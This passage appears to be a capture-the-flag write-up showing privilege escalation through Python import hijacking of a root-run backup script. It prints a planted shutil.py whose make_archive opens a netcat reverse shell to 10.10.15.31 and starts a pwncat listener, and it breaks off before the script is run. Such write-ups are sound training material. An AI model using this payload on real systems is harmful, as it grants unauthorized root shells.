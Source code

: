 `backup_shadow` and `backup_passwd` seem secure, `backup_db` won't help us so
let's dig in `backup_web`.

```bash
backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}
```

It just launch `/opt/scripts/backup.py`, let's see that:

```python
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

It looks like we'll have to mess with the python import system.

I won't explain to much here, if you want to understand the attack please read
[SIGSEGv1 Quals 2018 - Write-ups - 100 - Fun avec python - App-Script](https://rawsec.ml/en/sigseg-2018-quals-write-ups/#100-Fun-avec-python-App-Script).

```
$ mkdir -p /tmp/noraj/
$ cd /tmp/noraj/
$ vim.tiny shutil.py
```

`shutil.py` (a reverse-shell because spawning a PTY is useless as the python script is sent to background)

```python
def make_archive(no,ra,j):
    import os
    os.system("nc 10.10.15.31 8888 -e /bin/bash")
```

Start a [pwncat][pwncat] listener: `pwncat -l 8888 -vv`.

Then let's call the script:
